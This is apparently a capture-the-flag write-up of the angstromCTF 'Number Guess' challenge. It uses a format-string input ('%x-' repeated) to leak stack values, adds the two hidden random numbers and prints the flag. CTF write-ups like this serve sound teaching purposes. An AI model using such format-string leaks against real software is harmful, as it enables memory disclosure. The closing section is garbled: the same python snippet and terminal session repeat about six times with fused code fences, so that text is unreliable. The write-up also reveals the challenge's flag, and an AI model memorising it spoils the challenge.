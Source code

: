 # Number Guess challenge writeup

**Category:** Binary - 70

**Description:**

> Ian loves playing number guessing games, so he went ahead and [wrote one](./accumulator) himself ([source](./accumulator64)). I hope it doesn't have any vulns. The service is running at nc shell.angstromctf.com 1235.

## Solution write-up

The program asks for our name, which is pretty suspicious in itself since it doesn't have anything to do with the task. Upon a closer look, we can see that what we give him as our "name" is (almost) directly outputed, and in an unsafe way. That mean we can feed the program a format string to have a look at the top of the stack.


```
$ python -c "print '%x-'*13"
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-
$ ./guessPublic64 
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
ba5f8034-6bb-494fe-cc3781a4-cc378220-ba5f8178-0-400a50-5e3e8-ba5f8170-daf6e900-400a50-cbfbf1c1's guess: Sorry, the answer was 686310. Try again :(
```

Okay so the result was 686310, now we can try to find the two integers in the dumped part of the stack and hope that they're here. Most of the values are already higher than the result so this limits our possibilities.


After looking around for a few seconds, we get this :
```python
>>> 0x5e3e8 + 0x494fe
686310
```

So the values of the randomly generated integers are the third and ninth from the top of the stack. 

```
$ ./guessPublic64 
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x    
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
92623254-827-20d6e-6c4e61a4-6c4e6220-92623398-0-400a50-c375-92623390-67605c00-400a50's guess: 
```

```python
>>> 0x20d6e + 0xc375
184547
```

```
$ ./guessPublic64 
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x    
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
92623254-827-20d6e-6c4e61a4-6c4e6220-92623398-0-400a50-c375-92623390-67605c00-400a50's guess: 184547
Congrats, here's a flag: actf{format_stringz_are_pre77y_sc4ry}
``````python
>>> 0x20d6e + 0xc375
184547
```

```
$ ./guessPublic64 
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x    
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
92623254-827-20d6e-6c4e61a4-6c4e6220-92623398-0-400a50-c375-92623390-67605c00-400a50's guess: 184547
Congrats, here's a flag: actf{format_stringz_are_pre77y_sc4ry}
``````python
>>> 0x20d6e + 0xc375
184547
```

```
$ ./guessPublic64 
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x    
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
92623254-827-20d6e-6c4e61a4-6c4e6220-92623398-0-400a50-c375-92623390-67605c00-400a50's guess: 184547
Congrats, here's a flag: actf{format_stringz_are_pre77y_sc4ry}
``````python
>>> 0x20d6e + 0xc375
184547
```

```
$ ./guessPublic64 
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x    
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
92623254-827-20d6e-6c4e61a4-6c4e6220-92623398-0-400a50-c375-92623390-67605c00-400a50's guess: 184547
Congrats, here's a flag: actf{format_stringz_are_pre77y_sc4ry}
``````python
>>> 0x20d6e + 0xc375
184547
```

```
$ ./guessPublic64 
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x    
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
92623254-827-20d6e-6c4e61a4-6c4e6220-92623398-0-400a50-c375-92623390-67605c00-400a50's guess: 184547
Congrats, here's a flag: actf{format_stringz_are_pre77y_sc4ry}
``````python
>>> 0x20d6e + 0xc375
184547
```

```
$ ./guessPublic64 
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x    
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
92623254-827-20d6e-6c4e61a4-6c4e6220-92623398-0-400a50-c375-92623390-67605c00-400a50's guess: 184547
Congrats, here's a flag: actf{format_stringz_are_pre77y_sc4ry}
``````python
>>> 0x20d6e + 0xc375
184547
```

```
$ ./guessPublic64 
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x    
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
92623254-827-20d6e-6c4e61a4-6c4e6220-92623398-0-400a50-c375-92623390-67605c00-400a50's guess: 184547
Congrats, here's a flag: actf{format_stringz_are_pre77y_sc4ry}
```
